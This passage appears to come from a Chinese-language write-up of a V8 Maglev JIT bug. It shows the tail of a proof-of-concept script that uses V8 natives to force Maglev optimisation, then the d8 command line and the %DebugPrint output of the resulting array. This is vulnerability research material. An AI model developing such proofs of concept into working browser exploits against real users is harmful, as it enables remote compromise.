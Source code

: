 ```
return r;
}

%PrepareFunctionForOptimization(Derived);
construct();
construct();
%OptimizeMaglevOnNextCall(Derived);

var arr = construct();
// console.log(arr.length);
%DebugPrint(arr);
```

  
  
  
因为chrome执行会默认带--maglev这个flag，所以这里d8执行的时候需要加上--maglev，下面是输出，可以看到length字段已经出来了。  
  
  

```
➜  x64.release git:(11.5.150.16) ./d8 --allow-natives-syntax --maglev ./poc.js
DebugPrint: 0xf490004c9e9: [JSArray]
-map:0x0f490018e4c1 <Map[16](PACKED_SMI_ELEMENTS)> [FastProperties]
-prototype:0x0f490018e705 <JSArray[0]>
-elements:0x0f4900000219 <FixedArray[0]> [PACKED_SMI_ELEMENTS]
-length:0
-properties:0x0f4900000219 <FixedArray[0]>
-All own properties (excluding elements): {
0xf4900000e0d: [String] in ReadOnlySpace:#length: 0x0f4900144a3d <AccessorInfo name= 0x0f4900000e0d <String[6]: #length>, data= 0x0f4900000251 <undefined>> (const accessor descriptor), location: descriptor
 }
0xf490018e4c1: [Map] in OldSpace
-type:JS_ARRAY_TYPE
-instance size:16
-inobject properties:0
-elements kind:PACKED_SMI_ELEMENTS
-unused property fields:0
-enum length:invalid
-back pointer:0x0f4900000251 <undefined>
-prototype_validity cell:0x0f4900000ab9 <Cell value= 1>
 - instance descriptors #1: 0x0f490018ec71 <DescriptorArray[1]>
 - transitions #1: 0x0f490018ec8d <TransitionArray[4]>Transition array #1:
     0x0f4900000ed1 <Symbol: (elements_transition_symbol)>: (transition to HOLEY_SMI_ELEMENTS) -> 0x0f490018eca5 <Map[16](HOLEY_SMI_ELEMENTS)>
-prototype:0x0f490018e705 <JSArray[0]>
-constructor:0x0f490018e42d <JSFunction Array (sfi = 0xf490014b375)>
-dependent code:0x0f490004c979 <Other heap object (WEAK_ARRAY_LIST_TYPE)>
-construction counter:0
```

  
  
  
方便查阅。  
  